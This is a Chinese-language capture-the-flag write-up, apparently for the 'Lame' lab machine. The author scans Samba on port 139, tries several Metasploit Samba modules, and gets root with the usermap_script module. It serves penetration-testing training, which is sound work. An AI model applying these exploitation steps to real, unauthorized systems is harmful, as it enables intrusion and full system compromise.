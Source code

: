 ```yaml
---
title: lame（samba）
categories:
- training
tags:
- training
- port 139
- linux
---
```




10.10.10.3

## scan
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

linux os

---

这个training应该很简单，以前做过：
[139端口——smbclient](https://whale3070.github.io/tools/2016/12/12/x/)

[kiotrix靶机（139端口samba）](https://whale3070.github.io/training/2017/10/01/kiotrix%E9%9D%B6%E6%9C%BA-139%E7%AB%AF%E5%8F%A3samba/)

![Screenshot from 2019-01-03 15-51-52](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-03/Screenshot%20from%202019-01-03%2015-51-52.png)

得知服务版本
Samba 3.0.20-Debian

## trying 1
![Screenshot from 2019-01-03 16-00-54](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-03/Screenshot%20from%202019-01-03%2016-00-54.png)
```
locate exploits/linux/remote/9950.rb
[*] exec: locate exploits/linux/remote/9950.rb

/root/exploit-database/exploits/linux/remote/9950.rb
/usr/share/exploitdb/exploits/linux/remote/9950.rb

msfconsole
search -h
search platform:linux type:exploit samba
 exploit/linux/samba/chain_reply          2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   exploit/linux/samba/is_known_pipename    2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
   exploit/linux/samba/lsa_transnames_heap  2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   exploit/linux/samba/setinfopolicy_heap   2012-04-10       normal     Yes    Samba SetInformationPolicy AuditEventsInfo Heap Overflow
   exploit/linux/samba/trans2open           2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
   exploit/multi/samba/nttrans              2003-04-07       average    No     Samba 2.2.2 - 2.2.6 nttrans Buffer Overflow

use exploit/linux/samba/setinfopolicy_heap
show options 
查看Exploit target:
2:3.5.11~dfsg-1ubuntu2 on Ubuntu Server 11.10 
这个payload目标不对，于是
back
```
![Screenshot from 2019-01-03 16-12-30](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-03/Screenshot%20from%202019-01-03%2016-12-30.png)

#### 导入msf载荷
```
cd /root/.msf4/modules/exploits/
mkdir samba3.0.21-3.0.24 
cd samba*
cp /root/exploit-database/exploits/linux/remote/9950.rb .

重新启动msfconsole
search samba3
```

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-03/2.PNG)
突然发现，目标版本好像不符合条件，samba3.0.21-3.0.24

ORZ，太粗心了

## trying2:
Samba < 3.0.20 - Remote Heap Overflow
exp是一些C代码，需要编译运行，而且注释是意大利语的。。

## trying3:
google搜索Samba 3.0.20
https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script

exploit/multi/samba/usermap_script

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-03/3.PNG)

执行后，直接就是root权限
